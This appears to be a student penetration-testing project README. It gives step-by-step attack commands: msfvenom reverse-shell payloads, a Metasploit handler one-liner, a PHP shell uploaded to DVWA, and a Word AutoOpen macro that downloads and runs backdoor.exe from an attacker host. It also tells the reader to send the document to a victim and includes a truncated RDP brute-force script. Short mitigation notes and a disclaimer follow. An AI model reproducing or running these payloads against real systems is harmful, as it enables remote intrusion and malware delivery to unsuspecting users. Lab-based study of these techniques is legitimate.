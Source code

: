 # Penetration Testing Insights: RDP, Macro Exploits, and PHP Shell Uploads  
*A practical guide to understanding common cybersecurity vulnerabilities and mitigation strategies.*

---

## 📌 Overview  
This project demonstrates three critical cybersecurity exploitation techniques:  
1. **PHP Backdoor via File Upload Vulnerabilities** (using DVWA).  
2. **Macro-Based Exploitation in MS-Office**.  
3. **RDP Exploitation in Windows 11**.  

It also provides actionable mitigation strategies to defend against these attacks.  

---

## 🛠️ Prerequisites  
- **Tools**:  
  - Kali Linux (for Metasploit, msfvenom).  
  - DVWA (Damn Vulnerable Web Application).  
  - Microsoft Office (for macro testing).  
  - Python 3 (for RDP brute-force script).  
- **Basic Knowledge**:  
  - Familiarity with command-line tools.  
  - Understanding of ethical hacking principles.  

---

## 🔧 Setup Instructions  

### 1. PHP File Upload Exploitation (DVWA)  
- **Step 1**: Install DVWA and set security level to *"Low"*.  
- **Step 2**: Generate a PHP reverse shell payload:  
  ```bash
  msfvenom -p php/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=8000 -f raw > shell.php
Step 3: Upload shell.php to DVWA.

Step 4: Start Metasploit handler:

```bash
msfconsole -q -x "use exploit/multi/handler; set payload php/meterpreter/reverse_tcp; set LHOST <YOUR_IP>; set LPORT 8000; exploit"
```
- **Step 5**: Execute the uploaded file in DVWA to gain a reverse shell.

### 2. Macro-Based Exploitation (MS-Office)
- **Step 1**: Generate a malicious payload:

```bash

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=6666 -f exe > backdoor.exe
```

- **Step 2**: Host the payload on a local server (e.g., python3 -m http.server 8000).

- **Step 3**: Create a Word macro to download and execute backdoor.exe:


```bash
Sub AutoOpen()
  Shell "powershell -c Invoke-WebRequest http://<YOUR_IP>:8000/backdoor.exe -OutFile %Temp%\backdoor.exe; Start-Process %Temp%\backdoor.exe"
End Sub
```

- **Step 4**: Start the Metasploit handler (similar to Step 4 above).

- **Step 5**: Send the document to the victim. When macros are enabled, the payload executes.

### 3. RDP Exploitation (Brute-Force Attack)
- **Step 1**: Create a Python script (rdp_brute.py) to brute-force credentials (see code snippet below).

- **Step 2**: Run the script:

```bash
python3 rdp_brute.py
```

# Sample RDP brute-force script (replace IP, usernames, passwords)
```python
import subprocess

def check_rdp(host, username, password):
    # ... (refer to Figure 3.3.1 in the report for full code)
🛡️ Mitigation Strategies
For PHP Uploads:
```

- Validate file types (extension + MIME type).

- Store files outside the web root.

- Disable PHP execution in upload directories.

 ### For Macros:

- Disable macros by default.

- Use trusted digital signatures.

- Enable Protected View.

### For RDP:

- Enforce Multi-Factor Authentication (MFA).

-  Restrict RDP access via VPN/firewall.

- Apply security patches (e.g., BlueKeep).

## 📚 References
OWASP File Upload Guidelines

Microsoft RDP Security Advisory

Metasploit Documentation

### ⚠️ Disclaimer
This project is for educational purposes only. Always obtain proper authorization before testing systems.

🙏 Acknowledgments
Special thanks to N.M.I Raisul Bari (Daffodil International University) for guidance.


---

**How to Use This README**:  
1. Replace `<YOUR_IP>` with your local IP (use `ifconfig` or `ipconfig`).  
2. Ensure all tools (DVWA, Metasploit) are properly installed.  
3. Follow ethical guidelines—do not test on unauthorized systems.
This response is AI-generated, for reference only.
